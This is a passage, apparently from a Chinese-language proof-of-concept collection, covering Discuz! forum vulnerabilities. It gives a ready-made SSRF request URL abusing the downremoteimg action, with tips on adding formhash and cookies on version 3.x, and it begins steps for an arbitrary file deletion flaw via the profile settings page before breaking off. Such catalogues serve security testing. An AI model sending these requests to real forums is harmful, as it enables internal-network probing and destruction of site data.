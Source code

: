 参考链接：http://0day5.com/archives/3920/
#### 演示2：另一处SSRF漏洞（2.x，3.x）
访问http://xxxx/bbs/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://xxxxxxxxxxxxxx.jpg[/img]&formhash=09cec465
3.x 版本如果请求提示xss拦截要带上 formhash 加cookie,之前版本好像不用。SSRF成功后，域名被解析成IP。

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/81.png)

参考链接：https://bugs.shuimugan.com/bug/view?bug_no=151179
## 文件操作类漏洞
### 漏洞描述：由于没有对文件操作类的函数做好限制，导致discuz组件存在文件上传漏洞、任意文件删除漏洞、本地文件包含漏洞。涉及URL如下：
#### spacecp模块->演示1
http://ip/discuz3_2/home.php?mod=spacecp&ac=profile
#### 管理后台-应用-插件-演示2
### 测试步骤与截图：
#### 演示1：Discuz!X前台任意文件删除漏洞
新建importantfile.txt作为测试  进入设置-个人资料，先在页面源代码找到formhash值  http://10.0.2.15:8999/discuz3_2/home.php?mod=spacecp&ac=profile
